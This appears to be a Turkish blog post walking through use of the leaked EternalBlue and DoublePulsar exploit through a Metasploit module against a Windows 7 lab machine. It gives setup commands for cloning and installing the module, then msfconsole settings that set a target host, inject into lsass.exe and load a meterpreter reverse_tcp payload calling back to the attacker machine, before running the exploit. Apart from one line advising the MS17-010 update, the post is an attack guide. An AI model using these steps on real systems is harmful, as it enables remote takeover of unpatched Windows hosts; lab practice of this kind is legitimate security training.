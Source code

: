 ```yaml
---
layout: post
title: "Metasploit Framework EternalBlue&Double Pulsar"
date: 2017-05-02
share: true
description: Metasploit Framework EternalBlue&Double Pulsar
tags:
 - doublepulsar
 - shadow brokers
 - metasploit
comments: true
---
```


# Metasploit Framework EternalBlue&Double Pulsar

Selamlar , bildiğiniz gibi nsa tarafından yazılan kullanılan araçlardan bazıları shadow brokers adlı grup tarafından yayınlandı. 

Yayınlanan araçlardan fuzzbunch adındaki framework en fazla dikkat çeken araç oldu.

Özellikle doublepulsar backdooru ile birçok windows sürümlerine sızılabiliyor.

Bu zaafiyetlerden etkilenmemek için MS17-010 ile ilgili güncellemeleri yüklemelisiniz.

Sızdırılan exploitler kısa bir süre içinde engellendi fakat birçok github hesabı üzerinde bu toollara erişebilrisiniz.

Bir örnek:

[Nsa Shadow Brokers Tools](https://github.com/misterch0c/shadowbroker)

Bu sızıntı hakkında birçok bilgi bulunnaktadır araştırmanızı öneririm. Ben kısaca doublepulsarın metasploit frameworkü üzerinde kullanılmasından bahsedicem.

Eternalblue&Doublepulsar kısaca smb üzerinden dll injection yaparak hedefe sızmayı sağlıyor. Fuzzbunch frameworku üzerinde kullanılıyor.

Araştırırken hep windows üzerinde fuzzbunch'ı kullanarak hedefe sızmaya çalıştığını gördüm. Fakat fuzzbunch'ı windows üzerinde çalıştırmayı denerken bazı bağımlılıkları yüklerken hatalarla karşılaştım. Daha sonra gördüm ki doublepulsarı metasploit üzerindede kullanabiliyormuşuz. Hem bu şekilde kullanım açısından daha kolay olur diye düşündüm.

Sırasıyla aşağıdaki komutları çalıştırıyoruz.

>dpkg --add-architecture i386 && apt-get update && apt-get install wine32
>rm -r ~/.wine
>wine cmd.exe
>exit

Daha sonra [https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit) bu adresten metasploit için eternalblue&doublepulsar modünü indiriyoruz.

>git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

İçerisinde bulunan <u>deps</u> klasörü ile <u>eternalblue_doublepulsar.rb</u> dosyasını kalide <u>/usr/share/metasploit-framework/modules/exploits/windows/smb/</u> klasörü içersine kopyalıyoruz.

>service postgresql start - - - > Metasploit veritabanını güncelliyoruz. Artık msfconsole'a geçebiliriz.

Ben Windows 7 Service Pack1 makinesine sızmayı deneyeceğim.

Windows 7 makinesini IP adresi > 172.16.72.129

Kali nin IP adresi > 172.16.72.128

Eternalblue modülünü kullanmak için msfconsole'de:

	use exploit/windows/smb/eternalblue_doublepulsar

![](/images/doublepulsar/1.png)

>show options ile set edebilceğimiz değerler:


![](/images/doublepulsar/2.png)

	set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set rhost 172.16.72.129
	set targetarchıtecture x64
	set payload windows/meterpreter/reverse_tcp
	set processşnject lsass.exe
	set lhost 172.16.72.128
	set target 9

![](/images/doublepulsar/3.png)

Son olarak değerler:

![](/images/doublepulsar/4.png)

Daha sonra exploit diyerek hedef makineye sızma işlemini gerçekleştiriyoruz.

![](/images/doublepulsar/5.png)





